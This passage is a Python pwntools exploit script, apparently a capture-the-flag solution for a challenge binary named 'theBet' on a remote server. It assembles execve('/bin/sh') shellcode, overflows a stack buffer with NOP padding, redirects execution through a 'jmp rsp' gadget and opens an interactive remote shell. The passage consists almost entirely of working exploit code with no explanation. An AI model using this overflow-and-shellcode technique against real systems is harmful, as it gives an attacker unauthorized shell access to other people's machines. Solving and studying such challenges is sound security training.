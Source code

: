 ```python=
	shell += 'push 0x68732f\n'
	shell += 'push rsp\n'
	shell += 'pop rbx\n'
	shell += 'shl qword ptr [rbx], 0x20\n'
	shell += 'push 0x6e69622f\n'
	shell += 'pop rax\n'
	shell += 'add qword ptr [rbx], rax\n'
	shell += 'push rbx\n'
	shell += 'pop rdi\n'
	shell += 'push 0x3b\n'
	shell += 'pop rax\n'
	shell += 'syscall\n'
	
	shell = asm(shell)
	print(disasm(shell))

	return shell

if __name__=="__main__":
	context.arch='amd64'
	#p = process('./theBet')
	p = remote('gc1.eng.run', 31795)
	#gdb.attach(p)
	
	p.recv()
	p.sendline('aaaa')
	p.recv()
	p.sendline('1')
	
	p.recv()
	pay = '\x90'*(0x28)
	pay += p64(0x000000000040127e)# jmp rsp
	pay += shellcode()
	print(len(pay))
	
	p.sendline(pay)
	
	p.interactive()
```


